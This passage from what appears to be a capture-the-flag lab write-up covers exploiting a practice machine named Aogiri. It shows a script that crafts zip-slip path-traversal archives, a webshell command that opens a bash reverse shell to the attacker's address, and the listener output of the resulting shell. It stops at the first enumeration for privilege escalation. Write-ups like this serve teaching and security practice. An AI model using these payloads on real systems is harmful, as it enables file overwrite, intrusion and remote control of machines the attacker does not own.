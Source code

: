     mkdir -p ${current_dir}
    cp ${file} ${base}${path} 
    cd ${current_dir}
    
    trav="$(yes '/..' | head -${num_ups} | tr -d '\n' | cut -c2- | rev)"
    
    zip $outfile "${trav}${path}" >/dev/null
    unzip -l $outfile
    rm -rf ${base} 
    

Here’s how it runs:

    
    
    root@kali# ./zip_slip.sh 
    Usage: ./zip_slip.sh [out_zip] [file] [desired path] <number of ../>
      Number of ../ will be 8 if not given
      desired path must be absolute
      Ex: ./zip_slip.sh evil.zip evil_passwd /etc/passwd 5
    

Since I wrote that while solving, I also found this `python` version,
[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py).

### Shell

Running a basic bash rev shell in the webshell gets me a callback:

    
    
    root@kali# curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.101.
    Ncat: Connection from 10.10.10.101:52930.
    bash: cannot set terminal process group (10): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@Aogiri:/var/www/html$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Privesc: root on Aogiri

### Enumeration

Enumeration leads to a couple of interesting observations. I’m in a docker
container. There’s a `.dockerenv` file in the system root:

    
    
    www-data@Aogiri:/$ ls -a /
    .   .dockerenv  boot  etc   lib    media  opt   root  sbin  sys  usr
    ..  bin         dev   home  lib64  mnt    proc  run   srv   tmp  var
    